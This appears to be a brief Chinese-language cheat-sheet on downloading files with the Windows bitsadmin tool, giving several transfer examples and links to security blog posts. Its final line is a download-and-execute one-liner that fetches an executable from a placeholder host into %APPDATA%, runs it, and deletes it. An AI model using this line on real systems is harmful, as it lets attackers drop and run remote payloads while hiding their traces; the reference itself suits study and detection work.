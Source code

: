 bitsadmin命令（只能命令下载到已存在的路径上，win7以上）：

https://www.cnblogs.com/hookjoy/p/6550992.html

https://xz.aliyun.com/t/1654/



1.```bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

2.```bitsadmin /rawreturn /transfer getpayload http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

3.带进度条

```bitsadmin /transfer myDownLoadJob /download /priority normal "http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg" "e:\abc.jpg"```

4.多条命令
 
``` 
bitsadmin /create myDownloadJob
bitsadmin /addfile myDownloadJob http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\abc.jpg
bitsadmin /resume myDownloadJob
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```


bitsadmin /transfer d90f <http://site.com/a> %APPDATA%\d90f.exe&%APPDATA%\d90f.exe&del %APPDATA%\d90f.exe
